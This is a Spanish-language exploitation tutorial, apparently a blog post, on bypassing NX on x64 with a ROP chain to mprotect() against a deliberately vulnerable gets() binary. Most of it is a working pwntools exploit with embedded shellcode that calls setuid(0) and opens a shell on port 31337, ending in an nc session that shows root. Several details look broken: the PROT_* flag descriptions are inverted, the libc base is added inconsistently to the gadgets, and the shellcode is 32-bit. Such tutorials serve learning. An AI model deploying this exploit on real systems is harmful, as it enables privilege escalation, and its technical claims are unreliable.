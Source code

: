 ```yaml
---
layout: post
title: Bypass NX usando mprotect() en x64
author: c4rta
date: 2023-02-26
categories: [Explotacion binaria]
tags: [ROP]
---
```


En ocasiones se nos presenta la situacion donde tenemos el NX activado y tenemos que recurrir a tecnicas como ```ret2libc```, ```ret2reg```, mas que nada tecnicas que usen ```ROP```. Asi que ahora te voy a mostrar como usar ```mprotect()``` para volver a marcar el stack como ejecutable y puedas inyectar una shellcode.

## mprotect()

Segun la man page de Linux ```mprotect``` es:

mprotect () cambia las protecciones de acceso para las páginas de memoria del proceso de llamada que contienen cualquier parte del rango de direcciones en el intervalo [addr, addr+len-1]. addr debe estar alineado con el límite de la página... En caso de éxito, mprotect () devuelve cero. En caso de error, esta llamada al sistema devuelve -1 y errno para indicar el error. se establece

Y aca mas entendible seria que mprotect es la funcion que establece los permisos de lectura y escritura a cierta area de memoria. Esta funcion toma 3 argumentos:

- Una direccion inicial
- La longitud, que seria el rango en que podemos modificar
- Y una combinacion de banderas que son las que haran que se establezcan los permisos, estas banderas son:
    - **PROT_READ**: La memoria no se puede leer
    - **PROT_WRITE**: La memoria no se puede modificar/escribir
    - **PROT_EXEC**: La memoria no se puede ejecutar o no es ejecutable


## Crafteando el exploit

### Codigo vulnerable

```c
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
```
No hace falta hacer reversing por que la vulnerabilidad se encuentra en la funcion ```gets```

Como estamos en 64 bits los primero 6 argumentos se pasan los registros RDI, RSI, RDX, RCX, R8 y R9, y cualquier cosa despues se empieza a pasar por el stack.

En x64 para poder hacer esta tecnica ocupados de:

- La direccion base de libc
- Un gadget **pop rdi**; ret: este funcionara para poner la direccion de la pila en rdi
- Un gadget **pop rsi**; ret: esta funcionara para poner la longitud en rsi
- Un gadget **pop rdx**; ret,: este funcionara para establecer el valor 0x7 en rdx, este valor es el de los permisos de lectura, escritura y ejecucion.

Algo asi se llamaria a la funcion mprotect:

```c
#incluye <sys/mman.h> 

       int mprotect(void * addr, size_t len, int prot);
                            |            |        |
                            |            |        |
                           RDI          RSI      RDX
```

### Sacando la direccion de libc

Dentro del debugger podemos ingresar el comando ```vmmap libc```, obviamente antes hay que ejecutar el binario. Podemos ver la direccion base de libc:

```
gef➤  vmmap libc
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x007ffff7db6000 0x007ffff7dd8000 0x00000000000000 r-- /usr/lib/libc.so.6
0x007ffff7dd8000 0x007ffff7f32000 0x00000000022000 r-x /usr/lib/libc.so.6
0x007ffff7f32000 0x007ffff7f8a000 0x0000000017c000 r-- /usr/lib/libc.so.6
0x007ffff7f8a000 0x007ffff7f8e000 0x000000001d4000 r-- /usr/lib/libc.so.6
0x007ffff7f8e000 0x007ffff7f90000 0x000000001d8000 rw- /usr/lib/libc.so.6
gef➤ 
```
La direccion que usare es ```0x007ffff7db6000```

### Offset del RIP

Como estamos en x64 podemos hacer uso del offset del RSP o del RBP y sumarle 8.

Como estoy usando GEF, ingresare el comando ```pattern create 300```, para generar 300 caracteres que le pasaremos como input. Una vez que el programa pete ingresare ```pattern offset $rbp``` para pasar el offset del RBP:

```
gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 256 (little-endian search) likely
```
Ahora le sumamos 8 y nos da 264 que seria el desplazamiento para llegar al RIP.

Hace rato les mencione que mprotect recibia un argumento que es la longitud, debido a que la cadena que le metimos esta desde la direccion ```0x007fffffffe418```, podemos usar una direccion anterior lo suficientemente grande. Regularmente la longitud que se le pasa a mprotect en estos casos es ```0x1000```, la cual podra ser desde la direccion ```0x7ffffffffe000```

```
0x007fffffffe418│+0x0000: "iaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa"	 ← aca estan
0x007fffffffe420│+0x0008: "jaaaaaabkaaaaaablaaaaaabmaaa"
0x007fffffffe428│+0x0010: "kaaaaaablaaaaaabmaaa"
0x007fffffffe430│+0x0018: "laaaaaabmaaa"
0x007fffffffe438│+0x0020: 0x007f006161616d ("maaa"?)
0x007fffffffe440│+0x0028: 0x007fffffffe528  →  0x007fffffffe89f  →  "/home/c4rta/Downloads/mprotect"
0x007fffffffe448│+0x0030: 0xc91dfa2faf99b844
0x007fffffffe450│+0x0038: 0x0000000000000000
────────────────────────────────────────────
```

Hasta ahora nuestro exploit va asi:

```py
from pwn import *

p = process("./mprotect")

shellcode = b"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xf7"
shellcode+= b"\xe3\xb0\x66\x53\x43\x53\x43\x53\x89\xe1\x4b"
shellcode+= b"\xcd\x80\x89\xc7\x52\x66\x68\x7a\x69\x43\x66"
shellcode+= b"\x53\x89\xe1\xb0\x10\x50\x51\x57\x89\xe1\xb0"
shellcode+= b"\x66\xcd\x80\xb0\x66\xb3\x04\xcd\x80\x50\x50"
shellcode+= b"\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xd9\x89"
shellcode+= b"\xc3\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x51\x68"
shellcode+= b"n/sh\x68//bi\x89\xe3\x51\x53\x89\xe1\xb0\x0b"
shellcode+= b"\xcd\x80"

libc_base = 0x007ffff7db6000
rip_offset = 264
stack_addr = 0x7ffffffffe000
size = 0x1000
```

### Direccion de mprotect

Dentro de gdb podemos usar ```p mprotect``` y nos da esto:

```
gef➤  p mprotect
$1 = {<text variable, no debug info>} 0x7ffff7eb62f0 <mprotect>
```

### Direcciones de los gadgets

En mi caso usare ROPGadget pero puden usar ropper o radare2, aqui les puedo decir que no me arrojo ningun gadget, eso no es problema cuando se nos proporciona la libreria que esta usando, en este caso como lo compile en mi maquina, uso la libreria que se encuentra en ```/usr/lib/libc.so.6```, asi que esa la podemos usar para sacar los gadgets con el comando:

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi"```: 0x0000000000023d35

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rsi"```: 0x0000000000025641

``` ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdx"```: 0x000000000004e062


### Ejecutando el exploit final

Despues de agregar lo que le falta tenemos este exploit:

```py
from pwn import *

p = process("./mprotect")

shellcode = b"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xf7"
shellcode+= b"\xe3\xb0\x66\x53\x43\x53\x43\x53\x89\xe1\x4b"
shellcode+= b"\xcd\x80\x89\xc7\x52\x66\x68\x7a\x69\x43\x66"
shellcode+= b"\x53\x89\xe1\xb0\x10\x50\x51\x57\x89\xe1\xb0"
shellcode+= b"\x66\xcd\x80\xb0\x66\xb3\x04\xcd\x80\x50\x50"
shellcode+= b"\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xd9\x89"
shellcode+= b"\xc3\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x51\x68"
shellcode+= b"n/sh\x68//bi\x89\xe3\x51\x53\x89\xe1\xb0\x0b"
shellcode+= b"\xcd\x80"

libc_base = 0x007ffff7db6000
rip_offset = 264
stack_addr = 0x7ffffffffe000
size = 0x1000
mprotect_addr = 0x7ffff7eb62f0
pop_rdi = 0x0000000000023d35
pop_rsi = 0x0000000000025641
pop_rdx = 0x000000000004e062

payload = b"\x90" * 264
payload += p64(pop_rdi)
payload += p64(stack_addr)
payload += p64(pop_rsi)
payload += p64(size)
payload += p64(0xAAAAAAAAAAAAAAAA) #junk para r15
payload += p64(libc_base + pop_rdx)
payload += p64(0x7)
payload += p64(mprotect_addr)
payload += p64(0x007fffffffe418) #direccion desde donde comenzara la shellcode
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
```
**Ojo:** Antes de ejecutarlo hay que ponernos en escucha por el puerto 31337, ya que la shellcode ejecuta un ```setuid(0)``` y establece una conexion con nosotros mismos por ese puerto


```
󰣇  c4rta ~/Downloads  nc 192.168.1.76 31337 -v
Connection to 192.168.1.76 31337 port [tcp/*] succeeded!
whoami
root
```

Y asi conseguimos ser root, muchas gracias por leer ❤

![](/assets/img/heap2/waifu3.jpg)